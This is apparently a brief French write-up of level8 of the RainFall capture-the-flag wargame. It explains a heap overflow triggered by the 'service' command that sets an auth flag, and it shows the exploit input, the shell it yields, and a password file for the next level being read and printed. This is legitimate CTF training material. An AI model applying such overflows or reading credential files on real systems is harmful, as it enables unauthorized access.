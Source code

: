 # LEVEL8

Grace au reverse du programme, on peut voir que pour avoir accès au shell il faut que la variable `_auth[8] != 0`, sauf que quand on utilise la commande `auth`, la variable est assigné à 0.
En testant le programme on peut voir que la mémoire ce suit, il nous suffit d'écrire suffisament de valeur avec la commande `service` pour faire un buffer_overflow sur `auth` 

```
auth user
0x804a008, (nil) 
service AAAA
0x804a008, 0x804a018 
service AAAA 
0x804a008, 0x804a028 
auth user
0x804a038, 0x804a028 
```


```
level8@RainFall:~$ ./level8 
(nil), (nil) 
auth 
0x804a008, (nil) 
service AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
0x804a008, 0x804a018 
login
$ whoami
level9
$ cat /home/user/level9/.pass
c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a
$ 
```

